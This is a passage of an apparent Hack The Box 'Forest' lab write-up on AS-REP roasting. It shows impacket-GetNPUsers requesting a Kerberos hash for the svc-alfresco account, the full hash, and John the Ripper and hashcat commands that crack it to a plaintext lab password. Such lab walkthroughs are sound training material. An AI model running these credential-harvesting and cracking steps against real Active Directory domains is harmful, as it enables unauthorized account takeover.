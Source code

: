 

## 2.2 AS_REP roasting with "Do not Require Kerberos Preauthentication or UF_DONT_REQUIRE_PREAUTH"


When a target has Kerberos running and usernames are identified, the very next thing I can try is AS_REP with a "Do not Require Keberos Preauthentication" attack. This option does not require a password to be supplied. 

The pre-authentication step is the initial step in the Kerberos authentication, where a user sends an encrypted request to the KDC to authenticate to a service.

I used the impacket-GetNPUsers to start the pre-authentication step. Then Hastcat/John were used to decrypt the downloaded hash.  


```
└─$ impacket-GetNPUsers  htb/ -dc-ip 10.10.10.161 -usersfile ./valid_users.txt -request -format john -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB:973f4a4fa9f5bd1f541da70005b0685e$9fb58fb298bd7ea3730d280adbd6c29267871d358312115fd7a6c13b751b86240682c8c376de6dbfe0b4900aee322bfa65c85b142211a8d687d481c5627b0dd6b1ef3a42851120c8f36c21dd5ea06b038ea39100b67d25e5b51ae39a729d01bf2e84840d183dbaa8706a20a8040d5e2a23e2bdae4fa89f6b5e30c6986b605fa89babd39c96c2a6a532c26114e020d8fe2df9a3d0160a94b958fd01589931ff4dd3ab2d8b91ad2238d2c7953891129b4972e900df8a376f8dc3f3e6a509d2cee854259b60959bbfb724978577d562e8b989123cf1d544a963f76eb919146c1a2c
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

```

### 2.2.1 John/Hashcat

```
┌──(kali㉿kali)-[~/HTB/Forest]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ticket.tick 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB)     
1g 0:00:00:03 DONE (2022-12-01 16:33) 0.2958g/s 1208Kp/s 1208Kc/s 1208KC/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

OR

with hashcat

┌──(kali㉿kali)-[~/HTB/Forest]
└─$ hashcat -m 18200 -a 0 ./ticket.tick /usr/share/wordlists/rockyou.txt

```